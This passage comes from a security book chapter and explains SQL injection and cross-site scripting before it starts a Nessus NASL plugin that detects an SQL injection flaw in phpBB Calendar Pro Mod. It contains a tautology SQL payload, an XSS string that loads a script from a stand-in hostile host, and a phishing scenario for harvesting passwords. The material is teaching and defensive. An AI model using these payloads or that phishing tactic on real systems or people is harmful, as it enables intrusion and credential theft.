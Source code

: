 `' or 'a'='a`

The SQL query will now become:

`SELECT * FROM product WHERE PCategory='food' or 'a'='a'`

And it should return the same result.

### CLIENT-SIDE EXECUTION (CODE INJECTION, CROSS-SITE SCRIPTING, HTTP RESPONSE SPLITTING)
On the other side of the Web application vulnerability rainbow are the client-side vulnerabilities. This type of vulnerability is caused by the same issue as SQL injections: unfiltered user parameters. When user parameters are passed to the Web application, they can contain HTML (Hypertext Markup Language) or HTTP (Hypertext Transfer Protocol) special characters. Even if the input is never used in SQL or exec commands, an attacker can use this weakness if the user input is printed back by the script as a result. For example, if the user is required to fill his or her name in an HTML field, the HTML source can look something like:

`<INPUT NAME="username" VALUE="please provide a valid username">`

The attacker can enter something like:

`"><SCRIPT SRC="http://hostilepage/evilscript.asp"></SCRIPT>`

If the content is printed back unfiltered, the resultant HTML will include:

`<INPUT NAME="username" VALUE=" "><SCRIPT SRC="http://hostilepage/evilscript.asp"></SCRIPT>
">`

As you can see, the attacker injected arbitrary HTML code into the original HTML page, and the resultant HTML will run the attacker’s script.

This is, of course, being run on the client browser, not on the server. This does present a threat, though. For example, let us assume that a company holds a Web portal for its employees.

If the company’s site is vulnerable to cross-site scripting, an attacker can exploit the vulnerability combined with some social engineering. The attacker can send an e-mail to all the employees of the company, falsely stating that all the employees must renew their passwords owing to a problem in the database. The e-mail would also contain a link that points to the company’s site. To the untrained eye it will look valid, but actually it will point the person to the attacker’s page to harvest passwords.

## Creating Web Application Plugin Templates
Let’s begin with an example, a plugin that tests a simple SQL Injection vulnerability in phpBB’s (http://phpbb.com) Calendar Pro Mod (www.securiteam.com/exploits/5XP021FFGU.html).

The first part is divided into two sections: The first part of the plugin is the description used if the vulnerability was detected. Usually the description supplies details on the vulnerable product, the vulnerability, and a proposed solution. The second part runs the test and detects the vulnerability.

```NASL
#
# Copyright 2005 Ami Chayun
#
if (description) {
  script_version("$Revision: 1.0 $");


  name["english"] = "SQL Injection in phpBB 2.0.13 Calendar Pro Mod";
  script_name(english:name["english"]);


  desc["english"] = "
The remote host is running a version of phpBB that suffers from an SQL injection flaw in
the cal_view_month.php script.
An attacker can execute arbitrary SQL commands by injecting SQL code in the category
parameter.

```